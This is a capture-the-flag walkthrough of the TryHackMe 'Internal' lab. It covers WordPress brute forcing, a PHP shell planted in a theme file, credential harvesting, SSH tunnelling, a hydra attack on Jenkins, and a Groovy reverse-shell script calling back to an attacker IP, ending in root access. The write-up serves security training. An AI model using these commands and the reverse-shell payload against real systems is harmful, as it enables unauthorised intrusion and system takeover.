 ```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:21 EEST
Nmap scan report for 10.10.61.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.14 seconds
```

Gobuster:
```
/blog
/wordpress
/javascript
```
WPscan:
```
wpscan --url http://10.10.61.56/blog/ --enumerate u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
This would be a good time to add “internal.thm” to your “/etc/hosts”.

Now, while I look around on the pages for any clues (CTFs am i right?), I'll start wpscan to bruteforce the wordpress login.

While I was looking around, wpscan found something.
```
[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]
```
And we logged in!

Now we'll navigate to “Appearance/Theme Editor” and replace the “404.php” file contents with a php shell. I'll use the one from PentestMonkey.

The theme is Twenty Seventeen, so our shell will be located at 
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```
Now we got our shell:
```
# nc -lvnp 9002            
Listening on 0.0.0.0 9002
Connection received on 10.10.61.56 39104
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:37:53 up 18 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

```

I recommend checking out “Full TTYs” from hacktricks -> [Right Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

We cd into “/home”, and have a look around.
```
www-data@internal:/$ cd /home
cd /home
www-data@internal:/home$ ls
ls
aubreanna
www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied
www-data@internal:/home$
```
As you can see, we don't have permission to look inside “aubreanna”

We'll also check “/opt” as it's good practice.
```
www-data@internal:/opt$ ls
ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$
```
Cool, now we have aubreanna's login info. The text file indicates wordpress access, but we already have that. So let's try to ssh into the machine using those credentials.

```
aubreanna@internal:~$ whoami
aubreanna
```
We'll read “user.txt”, submit it, and then move on.
```
aubreanna@internal:/home$ cd aubreanna/
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
aubreanna@internal:~$ 

```
We've also found a "jenkins.txt" file, let's see what's inside.
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Ok, we have an internal service running. Now we need to access it.

A quick look on superuser.com, talks about forwarding / ssh tunneling. As we need to access an internal service from the outside.

And so, we create an ssh tunnel:
```
ssh -N -L 5555:172.17.0.2:8080 aubreanna@10.10.61.56
```
And if we navigate to localhost:5555, we got access to a jenkins webpage.

Default credentials, or at least those that I know of, are not working, so I'll capture the login request in burp, and then use hydra to try and bruteforce it.
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5555 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[5555][http-post-form] host: 127.0.0.1   login: [REDACTED]   password: [REDACTED]
```
Cool! Now we'll login, and abuse the jenkins script console to get a reverse shell again.

We'll run this script in the “http://localhost:5555/script”:
```
String host="10.18.116.220";
int port=5554;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
```
nc -lvnp 5554
Listening on 0.0.0.0 5554
Connection received on 10.10.61.56 56022
python -c 'import pty; pty.spawn("/bin/bash")'
jenkins@jenkins:/$ 
```
And we have another shell!

Snooping around a bit, we find this:
```
jenkins@jenkins:/$ cd /home
cd /home
jenkins@jenkins:/home$ ls
ls
jenkins@jenkins:/home$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
jenkins@jenkins:/opt$ 
```
Looks like we have the root password. Let's try to ssh using these credentials.

```
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~#
```

All there's left to do, is to read the “/root/root.txt” file, and you're done!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/internal)

[back](./)

